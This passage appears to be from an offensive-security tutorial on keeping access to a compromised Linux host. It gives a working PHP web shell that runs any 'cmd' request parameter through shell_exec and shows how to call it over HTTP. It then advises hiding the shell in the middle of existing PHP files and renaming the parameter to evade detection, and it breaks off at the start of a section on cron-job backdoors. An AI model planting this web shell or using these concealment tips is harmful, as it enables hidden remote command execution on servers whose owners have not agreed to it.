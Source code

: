 If you get root access on a Linux host, you will most likely search for creds and or any useful information in the web root.

The **web root** is usually located in: `/var/www/html`

What you have to know is that, whatever you leave in `/var/www/html`, will be available for everybody to use in their browser.

Now that you know that, you can try creating a php file with any name and putting inside this piece of code:

```php
<?php  
    if (isset($_REQUEST['cmd'])) {  
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";  
    }  
?>
```

This code simply takes the parameter `cmd` and will execute anything that is being given to that parameter.

>[!Note]
>Notice that we are using : `$_REQUEST['cmd'])`, which means that you can pass that parameter either in GET or in POST data.

Now that file is saved and ready , we can try to query it.

If you left the file in `/var/www/html/shell.php` you should be able to access it directly using: 

```
http://DOMAIN/shell.php
```

If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that: 

```
http://DOMAIN/DIRECTORY/shell.php  
```

>[!Tip]
>Here are some ways that we could make this backdoor a little more hidden:
>
>1. Try to add this piece of code in already existing php files in `/var/www/html`. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.
>
>2. Change the `cmd` parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## CronJob Backdoors

This backdoor consists of creating a **cronjob**!

If you take a look at your cronjobs file, which is `/etc/cronjob`, you would see something like this:

